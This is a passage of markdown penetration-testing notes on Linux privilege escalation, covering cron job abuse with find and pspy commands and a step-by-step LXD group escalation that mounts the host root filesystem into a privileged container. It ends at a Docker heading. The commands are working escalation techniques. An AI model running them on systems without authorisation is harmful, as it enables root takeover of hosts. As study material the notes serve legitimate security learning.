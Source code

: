 #### EX: 
Screen. Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

## Cron Job Abuse
- search for editable cron jobs
- even if the crontabe is only editable by the root user. You may find a world-writable script that is used in it and run as root 
- you can monitor the process using [pspy](https://github.com/DominicBreuker/pspy) without sudo privliage to know when the crontabe executed 
```shell
# Cron
find /etc -type d -name '*cron*' -exec sh -c 'echo "Parent Directory: $1"; ls -lah "$1"' sh {} \;

# find writable files or directories
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

# monitor every seconed 
pspy64 -pf -i 1000
```

## Containers
### Linux Containers
- We can either create our own container and transfer it to the target system or use an existing container. 
- we must be in either the lxc or lxd group
- check [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
```shell
id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
use an existing template
```shell
$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
- After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container.
- This flag disables all isolation features that allow us to act on the host.
```shell
$ lxc init ubuntutemp privesc -c security.privileged=true
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/bash

# to access the contents of the root directory on the host type cd /mnt/root/root

```
### Docker 
